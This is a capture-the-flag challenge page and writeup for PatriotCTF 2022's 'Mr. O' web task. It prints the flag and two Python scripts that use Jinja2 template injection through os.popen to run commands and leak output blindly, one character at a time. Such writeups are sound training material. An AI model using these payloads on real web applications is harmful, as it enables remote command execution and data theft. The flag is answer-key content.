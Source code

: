 # Mr. O

p.s. For testing, go to [INSTALL.md](https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/blob/main/Web/Mr%20O/INSTALL.md)

### Description
I am in the process of making the next big social media platform but I have a history of implementing software insecurely. If you can get view the admin.html page, I will give you a flag. 

Hacked again, so I am now filtering those special words and characters, but I won't tell you what they are so you can't find out how I was hacked. I will give you guys a couple characters back because I got some complaints about going overboard with it, especially about not being able to use a period on a messaging service.

p.s. to save you some time, don't try getting a reverse shell

### Difficulty
Hard

### Flag
`PCTF{chri5_bumst34d_i5_100king_thicc}`

### Hints
1. template injection
2. command execution
3. blind read w/ comparison to leak output

### Author
Daniel Getter (NihilistPenguin)

### Tester
None yet

### Writeup

This web app is alos vulnerable to template injection, but `{{` and `}}` is filtered, so we can't use the same method. Jinja has support for if statement templates that look like this: `{% if 'test' == 'test' %} render this string if true {% endif %}`. Let's see what happens when we send this message:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/raw/main/writeup-images/jinja_if.png" width=40%  height=40%></p>

Since Python is an OOP language, we can Method Resolution Order (MRO) to traverse across classes to a method we want, such as `os.popen`. Read more about this here: https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/. The following payload makes use of this to run the `ls` command: `{% if request.application.__globals__.__builtins__.__import__('os').popen('ls').read() == 'test' %} a {% endif %}`

The problem is that we won't see the output. Instead of `ls`, you could just put a reverse shell and that'd be it, but I removed netcat from the docker and filtered basically any other useful special character so people can't do this.

We can instead do a blind test for the output of the command: `{% if request.application.__globals__.__builtins__.__import__('os').popen('ls').read().startswith('" + str(x) + "') %} found {% endif %}`

If we put any character in `x`, then we can test if the output of the `ls` command starts with that character by checking if we see `found` returned back to us. Let's run this with the letter "D": `{% if request.application.__globals__.__builtins__.__import__('os').popen('ls').read().startswith('D') %} found {% endif %}`
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/raw/main/writeup-images/ssti_found.png" width=40%  height=40%></p>

I chose "D" because `Dockerfile` is the first file in the docker. We just need to script this so we can see the whole output of `ls`. Once we have that, we can try to find the path to the `/admin.html` page so we can read the flag.

Here is the script:
```python
from os import popen
import string
import requests

SERVER_ADDR = "http://127.0.0.1:5000" # replace this with the actual IP of the docker

def get_cookie():
    data = {
        "username": "test", # make sure to make a test:test user first
        "password": "test" 
    }

    req = requests.post(SERVER_ADDR+"/login", data=data)
    cookiejar = req.history[0].cookies
    cookie = cookiejar.get_dict()['session']

    return cookie

cookie = {"session": get_cookie()}

final = ""
while True:
    for x in string.printable:
        x = final + x
        payload = {'message':"{% if request.application.__globals__.__builtins__.__import__('os').popen('ls').read().startswith('" + str(x) + "') %} found {% endif %}", 
        'username':'admin'}
        r = requests.post(url=SERVER_ADDR + "/messages", data=payload, cookies=cookie)
        if 'found' in r.text:
            final = x
            print(final)
            break
        else:
            pass
```

Let's run it:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/raw/main/writeup-images/ssti_ls.png" width=40%  height=40%></p>

We see the directory strucutre. We can keep running this until we find the /admin.html file, but I'll skip that. I use a basic flask directory structure, so it is located in `/app/templates/admin.html`. Now let's read the file. There is a lot of HTML fluff that would make the process take forever, so we can speed it up by grepping for `Flag` first. Here's the script:
```python
from os import popen
import string
import requests

SERVER_ADDR = "http://127.0.0.1:5000"

def get_cookie():
    data = {
        "username": "test", 
        "password": "test" 
    }

    req = requests.post(SERVER_ADDR+"/login", data=data)
    cookiejar = req.history[0].cookies
    cookie = cookiejar.get_dict()['session']

    return cookie

cookie = {"session": get_cookie()}

final = "Flag: PCTF{"
while True:
    for x in string.printable:
        x = final + x
        payload = {'message':"{% if request.application.__globals__.__builtins__.__import__('os').popen('grep -io flag.*\} ./app/templates/admin.html').read().startswith('" + str(x) + "') %} found {% endif %}", 
        'username':'admin'}
        r = requests.post(url=SERVER_ADDR + "/messages", data=payload, cookies=cookie)
        if 'found' in r.text:
            final = x
            print(final)
            break
        else:
            pass
```

Let's run it:
<p align="center"><img src="https://github.com/MasonCompetitiveCyber/PatriotCTF2022-Public/raw/main/writeup-images/underground_flag.png" width=40%  height=40%></p>